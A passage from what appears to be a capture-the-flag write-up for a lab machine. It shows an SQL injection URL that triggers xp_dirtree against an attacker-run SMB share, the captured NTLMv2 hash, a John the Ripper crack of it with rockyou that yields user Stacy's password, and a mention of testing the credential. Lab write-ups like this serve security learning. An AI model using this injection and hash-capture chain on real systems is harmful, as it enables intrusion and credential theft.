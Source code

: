 There is a second point of injection in `product.aspx`, `productsubcategoryid`.

## Initial Access

We can use `xp_dirtree` to try to get a hash. Start an SMB server and execute the query.

```shell
https://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=18;%20EXEC%20MASTER.sys.xp_dirtree%20%27\\10.10.14.17\kali\test%27
```

```shell
$ impacket-smbserver -smb2support kali .
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.104,49710)
[*] AUTHENTICATE_MESSAGE (GIDDY\Stacy,GIDDY)
[*] User GIDDY\Stacy authenticated successfully
[*] Stacy::GIDDY:aaaaaaaaaaaaaaaa:a2460a71e3840477bcdba3394bf65d21:0101000000000000801b394ec4dbdb0109baf7b5a3abbf04000000000100100079006e0049006f004a005200680058000300100079006e0049006f004a005200680058000200100043005700410067007a0062006c0068000400100043005700410067007a0062006c00680007000800801b394ec4dbdb01060004000200000008003000300000000000000000000000003000007c1be546a3f4e42191147ba215b5e89f3f388bf71cc4bc9a355f1bce1c1765ba0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0031003700000000000000000000000000
```

Using `john`:

```shell
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash  
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xNnWo6272k7x     (Stacy)     
1g 0:00:00:01 DONE (2025-06-12 20:10) 0.6250g/s 1680Kp/s 1680Kc/s 1680KC/s xabat..x9831915x
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```

`Stacy:xNnWo6272k7x`

Testing credentials with `nxc`:

![](../assets/Pasted%20image%2020250612201356.png)
